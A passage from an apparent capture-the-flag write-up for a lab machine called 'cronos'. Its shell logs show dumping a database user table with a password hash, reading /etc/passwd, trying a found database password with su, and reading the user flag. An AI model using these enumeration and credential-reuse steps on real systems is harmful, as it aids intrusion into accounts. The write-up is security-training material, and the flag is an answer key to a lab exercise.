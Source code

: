 ```

mysql> select * from users;
select * from users;
+----+----------+----------------------------------+
| id | username | password                         |
+----+----------+----------------------------------+
|  1 | admin    | 4f5fffa7b2340178a716e3832451e058 |
+----+----------+----------------------------------+
1 row in set (0.00 sec)

mysql> exit
exit
Bye
www-data@cronos:/var/www/admin$ 
```

We find a MD5 hash for the "admin" account, but we are unable to crack it.

We can also try and switch user using the database password we found, however, this doesn't work either:

```
www-data@cronos:/var/www/admin$ cat /etc/passwd | grep "/bin/bash"
cat /etc/passwd | grep "/bin/bash"
root:x:0:0:root:/root:/bin/bash
www-data:x:33:33:www-data:/var/www:/bin/bash
noulis:x:1000:1000:Noulis Panoulis,,,:/home/noulis:/bin/bash
www-data@cronos:/var/www/admin$ su noulis
su noulis
Password: kEjdbRigfBHUREiNSDs

su: Authentication failure
www-data@cronos:/var/www/admin$ su -
su -
Password: kEjdbRigfBHUREiNSDs

su: Authentication failure
www-data@cronos:/var/www/admin$
```

Let's check out the home directories. The only one there is for the user "noulis", and it contains the user flag, which we can read.

```
www-data@cronos:/var/www/admin$ cd /home
cd /home
www-data@cronos:/home$ ls -a
ls -a
.  ..  noulis
www-data@cronos:/home$ cd noulis
cd noulis
www-data@cronos:/home/noulis$ ls -a
ls -a
.              .bash_logout  .composer       .selected_editor
..             .bashrc       .mysql_history  .sudo_as_admin_successful
.bash_history  .cache        .profile        user.txt
www-data@cronos:/home/noulis$ cat user.txt
cat user.txt
51d236438b333970dbba7dc3089be33b
www-data@cronos:/home/noulis$ 
```
